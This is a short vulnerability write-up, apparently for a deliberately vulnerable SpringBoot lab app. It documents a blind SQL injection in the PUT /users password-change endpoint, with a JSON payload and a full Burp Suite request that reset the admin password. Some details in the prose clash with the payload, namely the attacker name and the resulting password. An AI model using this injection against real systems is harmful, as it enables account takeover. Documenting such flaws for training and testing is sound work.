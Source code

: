 # Blind SQL Injection
A variant of SQL injection, a database query manipulation attack against structured query language (SQL), that does not have visual output during a successful attack.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _PUT /users_

Blind SQL Injection present within SpringBoot code for changing password.  Can be escaped to, for example, change the passwords of other users in addition to itself.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "username":"blind' OR username = 'admin",
        "newPassword":"password"
    }

This example assumes the attacker's name is _ding_ and adds _' OR username = 'admin"_ after specifying the username to change the password of the admin account to _password10!_ alongside the attacker's account.

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation

    PUT /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 67
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: JSESSIONID=D5FE8244B27DF4207B4BEC89ABE97921
    Connection: close

    {"username":"blind' OR username = 'admin","newPassword":"password"}

